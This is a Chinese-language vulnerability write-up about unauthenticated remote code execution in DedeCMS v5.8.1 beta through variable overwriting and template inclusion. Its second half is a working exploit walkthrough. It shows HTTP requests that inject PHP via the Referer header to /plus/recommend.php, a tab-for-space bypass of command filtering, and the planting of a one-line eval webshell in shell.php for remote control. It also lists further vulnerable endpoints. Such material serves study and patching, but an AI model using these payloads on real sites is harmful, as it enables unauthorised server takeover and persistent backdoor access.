0x01 前言
DedeCMS是国内专业的PHP网站内容管理系统-织梦内容管理系统，采用XML名字空间风格核心模板：模板全部使用文件形式保存，对用户设计模板、网站升级转移均提供很大的便利，健壮的模板标签为站长DIY自己的网站提供了强有力的支持。高效率标签缓存机制：允许对同类的标签进行缓存，在生成 HTML的时候，有利于提高系统反应速度，降低系统消耗的资源。模型与模块概念并存：在模型不能满足用户所有需求的情况下，DedeCMS推出一些互动的模块对系统进行补充，尽量满足用户的需求。众多的应用支持：为用户提供了各类网站建设的一体化解决方案。
该漏洞是由于DedeCMS存在变量覆盖漏洞，攻击者可利用该漏洞在未授权的情况下，构造恶意代码配合模板文件包含功能造成远程命令执行攻击，最终获取服务器最高权限。
0x02 影响版本
正式版：< v5.7.8(仅SQL注入)
内测版：= v5.8.1_beta
0x03 利用条件
- 用户认证：未授权
- 触发方式：远程
0x04 漏洞验证
访问以下链接：http://目标IP/data/admin/ver.txt

访问后返回DedeCMS版本更新时间，对比DedeCMS系统补丁更新完整列表：
可查看对应的版本。20210926（对应DedeCMS v5.7.8版）之后（包含该本版）的版本将不受该漏洞影响。
访问http://IP/plus/recommend.php并抓包

赋值Referer为coldwater，查看写入的模板内容

现在我们将Referer替换为注入代码，当然我们如果直接写一些常见的危险函数是不行的，因为在dedetemplate.class.php中，存在CheckDisabledFunctions函数，CheckDisabledFunctions函数在WriteCache中被调用，会对内容进行一个检测。


但是assert不在这个黑名单里面，且对get和post请求中的字符没有过滤，我们可以利用assert或者call_user_func执行任意代码。

除此之外，也并没有对""进行检测，在php中，""中的字符串可以被解析为函数，此外对反引号``也没有检测


成功执行命令。
以下（非详尽的）路径可以到达该漏洞：
/plus/flink.php?dopost=save
/plus/users_products.php?oid=1337
/plus/download.php?aid=1337
/plus/showphoto.php?aid=1337
/plus/users-do.php?fmdo=sendMail
/plus/posttocar.php?id=1337
/plus/vote.php?dopost=view
/plus/carbuyaction.php?do=clickout
/plus/recommend.php
getshell
尝试往目标服务器写入一句话木马
构造如下payload
GET /plus/recommend.php?c='echo "<?php @eval($_POST[cmd]);?>">shell.php' HTTP/1.1
Host: 192.168.3.238
Referer: <?php $b = `$c`; echo "<pre>$b</pre>";/*


写入shell失败
构造如下payload
GET /plus/recommend.php?c=echo "<?php @eval($_POST[cmd]);?>">shell.php HTTP/1.1
Host: 192.168.3.238
Referer: <?php $b = `$c`; echo "<pre>$b</pre>";/*

同样写入失败
执行系统命令net user
GET /plus/recommend.php?c=net user HTTP/1.1
Host: 192.168.3.238
Referer: <?php $b = `$c`; echo "<pre>$b</pre>";/*

执行命令失败
猜测是执行的命令中包含空格，想办法bypass空格
此处可以用%09代替空格，需要PHP环境
构造如下payload
GET /plus/recommend.php?c=echo%09123>s.php HTTP/1.1
Host: 192.168.3.238
Referer: <?php $b = `$c`; echo "<pre>$b</pre>";/*

写入一句话
GET /plus/recommend.php?c=echo%09"<?php%09@eval($_POST[cmd]);?>">shell.php HTTP/1.1
Host: 192.168.3.238
Referer: <?php $b = `$c`; echo "<pre>$b</pre>";/*
Content-Length: 2

成功写入shell.php
用蚁剑连接

0x05 参考地址
https://mp.weixin.qq.com/s/GSudZ7T8rl2yx5Tpkk6pHQ
https://xz.aliyun.com/t/10331
https://blog.csdn.net/xuu4561/article/details/120609960